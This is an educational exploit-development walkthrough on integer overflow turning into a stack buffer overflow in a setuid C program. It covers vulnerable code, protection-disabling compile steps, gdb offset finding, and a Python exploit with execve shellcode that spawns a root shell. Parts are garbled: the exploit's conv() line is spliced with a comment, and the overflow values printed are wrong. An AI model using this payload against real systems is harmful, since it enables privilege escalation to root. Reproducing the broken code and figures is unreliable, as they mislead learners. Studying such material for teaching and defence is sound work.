

# Reference

[//]: <> (文章所涉及到的技术点的链接)

<!--MD5(Integer Overflow) = f223ecbf45f65f00685e2a59d485c5ee -->

# Title

[//]: <> (题目)

Integer Overflow

# Content

[//]: <> (内容)

VM Setup: Ubuntu 12.04 (x86)

## What is Integer Overflow?

Storing a value greater than maximum supported value is called integer overflow. Integer overflow on its own doesnt lead to arbitrary code execution, but an integer overflow might lead to stack overflow or heap overflow which could result in arbitrary code execution. In this post I will be talking ONLY about integer overflow leading to stack overflow, integer overflow leading to heap overflow will be covered up later in a separate post.

Data types size and its range:

<div align=center></div>

When we try to store a value greater than maximum supported value, our value gets wrapped around. For example when we try to store 2147483648 to signed int data type, its gets wrapped around and stored as -21471483648. This is called integer overflow and this overflow could lead to arbitrary code execution!!

## Integer underflow

Similarly storing a value lesser than the minimum supported value is called integer underflow. For example when we try to store -2147483649 to signed int data type, its gets wrapped around and stored as 21471483647. This is called integer underflow. Here I will be talking only about integer overflow, but the procedure remains same for underflows too!!

Vulnerable Code:
```C
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```

Compilation Commands:
```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

Line [1] of the above vulnerable program shows us that an integer overflow bug exists. strlen()’s return type is size_t (unsigned int) which gets stored in unsigned char data type. Hence any value greater than maximum supported value of unsigned char leads to integer overflow. Thus when the password length is 261, 261 gets wrapped around and stored as 5 in ‘passwd_len’ variable!! Because of this integer overflow, bounds checking performed at line [2] can be bypassed, thus resulting in stack based buffer overflow!!! And as seen in [this](https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/) post, stack based buffer overflow leads to arbitrary code execution.

Before looking into the exploit code, for better understanding, lets disassemble and draw the stack layout for vulnerable code!!

Disassembly:
```
(gdb) disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
 //Function Prologue
 0x0804849e <+0>: push %ebp                               //backup caller's ebp
 0x0804849f <+1>: mov %esp,%ebp                           //set callee's ebp to esp

 0x080484a1 <+3>: push %edi                               //backup edi
 0x080484a2 <+4>: sub $0x34,%esp                          //stack space for local variables
 0x080484a5 <+7>: mov 0x8(%ebp),%eax                      //eax = passwd
 0x080484a8 <+10>: movl $0xffffffff,-0x1c(%ebp)           //String Length Calculation -- Begins here
 0x080484af <+17>: mov %eax,%edx
 0x080484b1 <+19>: mov $0x0,%eax
 0x080484b6 <+24>: mov -0x1c(%ebp),%ecx
 0x080484b9 <+27>: mov %edx,%edi
 0x080484bb <+29>: repnz scas %es:(%edi),%al
 0x080484bd <+31>: mov %ecx,%eax
 0x080484bf <+33>: not %eax
 0x080484c1 <+35>: sub $0x1,%eax                          //String Length Calculation -- Ends here
 0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
 0x080484c7 <+41>: cmpb $0x3,-0x9(%ebp)                   //if(passwd_len <= 4 )
 0x080484cb <+45>: jbe 0x8048500 <validate_passwd+98>     //jmp to 0x8048500
 0x080484cd <+47>: cmpb $0x8,-0x9(%ebp)                   //if(passwd_len >=8)
 0x080484d1 <+51>: ja 0x8048500 <validate_passwd+98>      //jmp to 0x8048500
 0x080484d3 <+53>: movl $0x8048660,(%esp)                 //else arg = format string "Valid Password"
 0x080484da <+60>: call 0x80483a0 <puts@plt>              //call puts
 0x080484df <+65>: mov 0x804a020,%eax                     //eax = stdout 
 0x080484e4 <+70>: mov %eax,(%esp)                        //arg = stdout
 0x080484e7 <+73>: call 0x8048380 <fflush@plt>            //call fflush
 0x080484ec <+78>: mov 0x8(%ebp),%eax                     //eax = passwd
 0x080484ef <+81>: mov %eax,0x4(%esp)                     //arg2 = passwd
 0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
 0x080484f6 <+88>: mov %eax,(%esp)                        //arg1 = passwd_buf
 0x080484f9 <+91>: call 0x8048390 <strcpy@plt>            //call strcpy
 0x080484fe <+96>: jmp 0x8048519 <validate_passwd+123>    //jmp to 0x8048519
 0x08048500 <+98>: movl $0x804866f,(%esp)                 //arg = format string "Invalid Password"
 0x08048507 <+105>: call 0x80483a0 <puts@plt>             //call puts
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb

 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```
Stack Layout:

<div align=center></div>

As we already know a password of length 261, bypasses bounds checking and allows us to overwrite the return address located in stack. Lets test it out by sending a series of A’s.

Test Step 1: Is Return Address Overwrite possible?
```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

## Test Step 2: What is the offset from Destination Buffer?

Here lets find out at what offset return address is located from buffer ‘passwd_buf’. Having disassembled and drawn the stack layout for validate_passwd(), lets now try to find offset location information!! Stack Layout shows that return address is located at offset (0x18) from buffer ‘passwd_buf’. 0x18 is calculated as follows:

```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```
where
* 0xb is ‘passwd_buf’ size
* 0x1 is ‘passwd_len’ size
* 0x4 is alignment space
* 0x4 is edi
* 0x4 is caller’s EBP

Thus user input of form “A” * 24 + “B” * 4 + “C” * 233, overwrites passwd_buf, passwd_len, alignment space, edi and caller’s ebp with “A”‘s, return address with “BBBB” and remaining space with C’s.

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

Above output shows that attacker gets control over return address. Return address located at stack location (0xbffff1fc) is overwritten with “BBBB”. With these informations, lets write an exploit program to achieve arbitrary code execution.

Exploit Code:

```python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```

Executing above exploit program gives us root shell (as shown below):

```
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

Reference:
1. http://phrack.org/issues/60/10.html